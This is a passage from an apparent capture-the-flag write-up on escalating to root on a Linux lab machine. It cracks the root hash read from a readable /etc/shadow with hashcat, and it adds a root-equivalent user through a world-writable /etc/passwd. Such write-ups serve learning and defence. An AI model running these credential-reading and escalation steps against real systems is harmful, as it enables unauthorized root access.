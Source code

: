![](gRoot/groot6.png)

---

### #2 - Cracking the password hash of the root user

The **/etc/shadow** file is readable by everyone exposing the root users password hash:

`ls -al /etc/shadow`

```
-rw-r--r-- 1 root shadow 1131 Jul  4 13:58 /etc/shadow
```

`cat /etc/shadow | grep root`

```
root:$6$f8oZEFNA$UOFFeLjt0qwBJhokX0Jrl6dZyaYpvoCdyCaZasuYYBownvwoTGq7RafXBe/BT7A9xsOuDzUQ/icOqsPOLVdos/:18793:0:99999:7:::
```

Running that through hashcat cracks it pretty quickly:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

![](gRoot/groot7.png)

I then run `su root` and use the password that was just cracked to login as root:

![](gRoot/groot8.png)

If you're curious why the **/etc/shadow** file is set to 777 permissions check out **/etc/cron.hourly/rootme** which is a job that runs every hour and changes the permission on the file:

`cat /etc/cron.hourly/rootme`

```
#!/bin/bash 
 chmod 777 /etc/shadow
```

---

### #3 - World writeable /etc/passwd file

Looking at the permissions on **/etc/passwd** show us:

`ls -al /etc/passwd`

```
-rwxr--rw- 1 root root 1723 Jun 16  2021 /etc/passwd
```

I first create a new **sha512crypt** password hash of the word **jason** and then edit the **/etc/passwd** file to add my new jason user to it giving it the same permissions as root.

Once that's done I run `su jason` and login with the password **jason** and we get root:

![](gRoot/groot9.png)

---